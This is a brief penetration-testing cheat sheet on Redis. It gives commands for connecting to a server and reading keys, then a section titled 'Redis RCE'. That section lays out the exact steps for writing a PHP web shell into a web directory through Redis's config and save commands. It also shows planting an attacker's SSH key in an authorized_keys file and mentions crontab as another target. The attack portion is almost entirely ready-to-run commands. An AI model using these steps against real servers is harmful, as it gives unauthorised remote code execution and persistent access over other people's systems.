 # Redis

### Useful Commands

```bash
# connect
redis-cli -h <ip>
# authenticate in case its required
AUTH password (or AUTH username password)
# get dbs
info
# select db
select 0
# get value of key
get <key>
# get value of key in case its a list
lrange <key> 1 10
```

### Redis RCE

```text
redis-cli -h <ip>
config set dir <web dir>
config set dbfilename <shell.php>
set test <php or key>
save
```

In case you want to upload a ssh key to an authorized\_keys file, set the key before saving the db, e.g.:

```text
cat authorized_keys | redis-cli -h <ip> -x set sshkey
```

Other useful locations include for example crontab.


